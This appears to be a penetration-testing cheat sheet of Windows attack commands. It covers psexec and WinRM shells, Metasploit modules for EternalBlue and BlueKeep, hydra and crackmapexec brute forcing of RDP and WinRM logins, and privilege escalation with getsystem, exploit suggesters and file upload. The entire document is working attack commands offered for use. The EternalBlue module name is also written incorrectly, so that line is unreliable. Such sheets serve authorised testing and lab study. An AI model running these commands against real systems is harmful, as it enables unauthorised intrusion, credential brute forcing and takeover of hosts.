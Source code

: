 ```bash

##Using psexec to get a CMD session on target (authenticated)
psexec.py $user@$ip cmd.exe

##Using psexec with MSF (authenticated)
use exploit/windows/smb/psexec

##Checking if the target is vulnerable to ms17-010 via nmap
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 $ip

##The ms17-010 aka eternalblue exploit in MSF
use exploit/windows/smb/ms17_101_eternalblue

##Checking if RDP is enabled with MSF
use auxiliary/scanner/rdp/rdp_scanner

##Brute forcing RDP login with hydra
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.2.16.67 -s 3333 #port

##Connecting to RDP via xfreerdp
xfreerdp /u:$user /p:$password /v:$ip:$rdpport

##Checking if target RDP is vulnerable to bluekeep via MSF
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

##Exploiting bluekeep on target RDP via MSF
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

##Bruteforcing WinRM with crackmapexec
crackmapexec winrm $ip -u $user -p $wordlist

##Running code on target winrm via crackmapexec (authenticated)
crackmapexec winrm $ip -u $user -p $password -x "whoami"

##Getting a shell on target winrm via evil-winrm (authenticated)
evil-winrm.rb -u user -p 'password' -i $ip

##Getting a shell on target winrm via MSF (authenticated)
use exploit/windows/winrm/winrm_script_exec
set force_vbs true

##MSF module for rejetto
use exploit/windows/http/rejetto_hfs_exec
```

## Windows Privilege Escalation

```bash
##Trying to get system in a meterpreter session automatically
getsystem

##Using an MSF module in order to suggest exploits for escalation
use post/multi/recon/local_exploit_suggester

##Using windows-exploit-suggester
windows-exploit-suggester.py --database MY-DATABASE.xlsx --systeminfo THE-TARGET-SYSINFO.txt

##Uploading a file via MSF
upload /path/to/my/file.exe
```
